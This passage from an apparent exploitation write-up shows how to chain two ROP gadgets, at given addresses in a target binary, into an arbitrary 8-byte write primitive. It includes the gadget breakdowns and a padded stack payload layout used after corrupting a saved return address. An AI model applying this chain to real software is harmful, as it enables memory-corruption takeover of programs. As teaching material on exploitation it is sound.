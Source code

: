 If we think about how the previous r/w primitive worked, there was a pointer value being dereferenced and a value assigned (i.e. written) to the memory it pointed to. What would this look like in assembly? Probably something like this:

```
mov rax, [rsp+0x30];     # read a value from some address into $rax
	mov [rax], rbx;          # write the value of $rbx to the address pointed to by the value in $rax (deref $rax as pointer)
```

So, if we can find a gadget (or gadgets) that will allow us to do this kind of operation and we can control the values that are used for both sides of the operation, we should be able to get an arbitrary write primitive. And, it turns out, luck is on our side! The gadget below (`GADGET_A`) is available:

**GADGET_A**

*   `0x405574`:
    *   `mov rdx, QWORD PTR [rsp+0x50];`: read a value at `$rsp+0x50` (top of stack+80) into `$rdx`
    *   `mov QWORD PTR [rdx], rax`: dereference `$rdx` as a pointer and write the value in `$rax` to that location
    *   `xor eax, eax;`: 0 out lower 32 bits of `$rax`
    *   `add rsp; 0x48`: shift stack up by `0x48` bytes
    *   `ret;`: return

Great! This gets us most of the way there. But first, we need to find a way to get controlled values into `$rax` as that will be what gets written to the address in `$rdx`. To do this, we need to find a gadget that will take a value from the stack and put it into `$rax`, same as before. This is usually easy enough as `pop` operations happen all over the place and the odds are at least one of them pops to `$rax`. This is the gadget I chose to go with for this exploit (`GADGET_B`):

**GADGET_B**

*   `0x0042acd8: pop rax; add rsp, 0x18; pop rbx; pop rbp; ret;`
    *   `pop rax;`: pop the value at the top of the stack into `$rax`
    *   `add rsp, 0x18;`: increment `$rsp` by `0x18 (24)` bytes; will need +24 bytes of padding to account for this operation
    *   `pop rbx; pop rbp;`: pop the next two values from the (new) top of the stack into `$rbx` and `$rbp`, respectively; will need +16 bytes of padding to account for this operation
    *   `ret;`: return

Chaining the second gadget with the first one gets us everything we need! We can now write an arbitrary 8-byte value to an arbitrary address, assuming we control the values at the top of the stack when execution is redirected (which we will since we corrupt the saved return address, which is at the top of the stack). Here’s what the payload for this chain would look like, including the padding needed to account for the instructions that modify the stack pointer.

```
GADGET_B
value_to_write ; popped into rax
padding[40]    ; account for 2 pops and a +0x18 shift to rsp
GADGET_A       ; value jumped to after ret from GADGET_B; read $rsp+50 into rdx
padding[72]    ; account for rsp+0x48
<next_jump_addr> ; addr jumped to after ret from GADGET_A
addr_to_write_to ; value read into $rdx in the start of GADGET_A
```
